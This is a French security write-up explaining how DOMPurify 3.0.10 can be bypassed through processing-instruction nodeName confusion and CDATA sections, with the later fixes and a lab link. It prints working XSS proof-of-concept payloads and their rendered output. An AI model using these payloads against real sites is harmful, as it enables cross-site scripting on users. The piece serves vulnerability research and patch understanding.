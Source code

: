 ```yaml
---
description: 22 mai 2024
---
```


# Dompurify 3.0.10 bypass - Confusion nodeName and CDATA

## Crédits

Cet article se base sur les recherches de [RyotaK](https://x.com/ryotkak) ([https://flatt.tech/research/posts/bypassing-dompurify-with-good-old-xml/](https://flatt.tech/research/posts/bypassing-dompurify-with-good-old-xml/)).

## Confusion nodeName

{% hint style="info" %}
Il est recommandé de consulter l'article précédent intitulé [dompurify-3.0.9-bypass-node-type-confusion.md](dompurify-3.0.9-bypass-node-type-confusion.md "mention"), avant de poursuivre la lecture.
{% endhint %}

La version 3.0.9 de Dompurify présente une vulnérabilité de contournement lorsqu'un contenu XML utilisant l'interface `ProcessingInstruction` est utilisé dans une page HTML. La version 3.0.10 corrige ce problème en ajoutant le masque `SHOW_PROCESSING_INSTRUCTION` lors du traitement des nœuds XML, permettant ainsi leur prise en compte.

Pour rappel, le format d'une telle instruction est le suivant :&#x20;

```xml
<?target data?>
```

Et l'exploitation de la vulnérabilité peut s'effectuer de cette manière :

```xml
<?xml-stylesheet ><img src=x onerror=alert(1)>?>
```

Puisque la version 3.0.9 de Dompurify n'analyse pas les instructions de traitement (processing instructions), et que l'interface le permet, l'utilisateur peut librement définir la cible (`target`) :

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?whatever ><img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

Provoquant l'affichage de la boîte de dialogue :&#x20;

```html
<div id="userContent">
  <!--?whatever -->
  <img src="x" onerror="alert(1)">
  "?>"
</div>
```

Grâce au correctif, la version 3.0.10 de Dompurify analyse dorénavent les noeuds de type `ProcessingInstruction`.

Lorsque Dompurify analyse une balise, la bibliothèque d'assainissement récupère tout d'abord le nom de la balise à analyser en accédant à la propriété `nodeName` :&#x20;

```javascript
/* Now let's check the element's type and name */
const tagName = transformCaseFunc(currentNode.nodeName);
```

Puis vérifie que la balise rencontrée soit autorisée :&#x20;

```javascript
if (!ALLOWED_TAGS[tagName] || FORBID_TAGS[tagName]) {
}
```

Par défaut, les balises autorisées sont les suivantes :&#x20;

```javascript
const html$1 = freeze(['a', 'abbr', 'acronym', 'address', 'area', 'article', 'aside', 'audio', 'b', 'bdi', 'bdo', 'big', 'blink', 'blockquote', 'body', 'br', 'button', 'canvas', 'caption', 'center', 'cite', 'code', 'col', 'colgroup', 'content', 'data', 'datalist', 'dd', 'decorator', 'del', 'details', 'dfn', 'dialog', 'dir', 'div', 'dl', 'dt', 'element', 'em', 'fieldset', 'figcaption', 'figure', 'font', 'footer', 'form', 'h1', 'h2', 'h3', 'h4', 'h5', 'h6', 'head', 'header', 'hgroup', 'hr', 'html', 'i', 'img', 'input', 'ins', 'kbd', 'label', 'legend', 'li', 'main', 'map', 'mark', 'marquee', 'menu', 'menuitem', 'meter', 'nav', 'nobr', 'ol', 'optgroup', 'option', 'output', 'p', 'picture', 'pre', 'progress', 'q', 'rp', 'rt', 'ruby', 's', 'samp', 'section', 'select', 'shadow', 'small', 'source', 'spacer', 'span', 'strike', 'strong', 'style', 'sub', 'summary', 'sup', 'table', 'tbody', 'td', 'template', 'textarea', 'tfoot', 'th', 'thead', 'time', 'tr', 'track', 'tt', 'u', 'ul', 'var', 'video', 'wbr']);
```

Pour un noeud de type `ProcessingInstructions`, la propriété `nodeName` retourne la valeur de la cible (`target`). Ainsi, pour contourner l'assainissement effectué par Dompurify en version 3.0.10, il suffit de renseigner une cible (`target`) présente dans la liste de balises autorisées, par exemple `<abbr>` (ou `<img>` comme l'a fait l'auteur de l'article originel) :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<?abbr ><img src=x onerror=alert(1)>?>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

```html
<div id="userContent">
  <!--?abbr -->
  <img src="x" onerror="alert(1)">
  "?>"
</div>
```

## Character data (CDATA)

`CDATA` est une section dans un document XML où les données sont traitées comme du texte brut, ce qui signifie que les balises et les entités spéciales à l'intérieur de cette section ne sont pas interprétées comme du code XML mais comme du texte. Cela permet d'inclure des caractères qui pourraient autrement être interprétés comme des balises ou des entités XML.

Une section `CDATA` commence par `<![CDATA[` et se termine par `]]>`. Voici un exemple :&#x20;

```xml
<![CDATA[Ceci est du texte.]]>
```

Le contournement de la version 3.0.9 était dû à l'absence de filtre pour prendre en compte l'interface `ProcessingInstruction`. Il en va de même pour les sections `CDATA` :

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<![CDATA[ ><img src=x onerror=alert(1) ]]>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

```html
<div id="userContent">
  <!--[CDATA[ -->
  <img src="x" onerror="alert(1)" ]]>
</div>
```

A noter que la variante suivante semble fonctionner également :&#x20;

```javascript
let userContent= document.getElementById('userContent');
userContent.innerHTML = DOMPurify.sanitize("<![CDATA[ ><img src=x onerror=alert(1)>", {PARSER_MEDIA_TYPE: 'application/xhtml+xml'});
```

```html
<div id="userContent">
  <!--[CDATA[ -->
  <img src="x" onerror="alert(1)">
  "]]>"
</div>
```

## Corrections

Concernant l'interface `ProcessingInstruction`, Dompurify 3.0.11 a décidé de supprimer toutes les occurrences d'instructions de traitement :

```javascript
/* Remove any ocurrence of processing instructions */
if (currentNode.nodeType === 7) {
  _forceRemove(currentNode);
  return true;
}
```

Pour les sections `CDATA`, l'ajout du filtre `NodeFilter.SHOW_CDATA_SECTION` permet de détecter correctement leur utilisation. Étant donné que la valeur de la propriété `nodeName` d'une telle section est `#cdata-section`, qui n'est pas une balise autorisée par défaut, le contournement n'est plus possible.

```javascript
const _createNodeIterator = function _createNodeIterator(root) {
  return createNodeIterator.call(root.ownerDocument || root, root,
  // eslint-disable-next-line no-bitwise
  NodeFilter.SHOW_ELEMENT | NodeFilter.SHOW_COMMENT | NodeFilter.SHOW_TEXT | NodeFilter.SHOW_PROCESSING_INSTRUCTION | NodeFilter.SHOW_CDATA_SECTION, null);
};
```

## Labs

Afin de tester et d'exploiter ce contournement, une image Docker est disponible [ici](https://github.com/Sharpforce/cybersecurity-code/tree/master/dompurify-3.0.10-bypass-confusion-nodename-and-cdata).
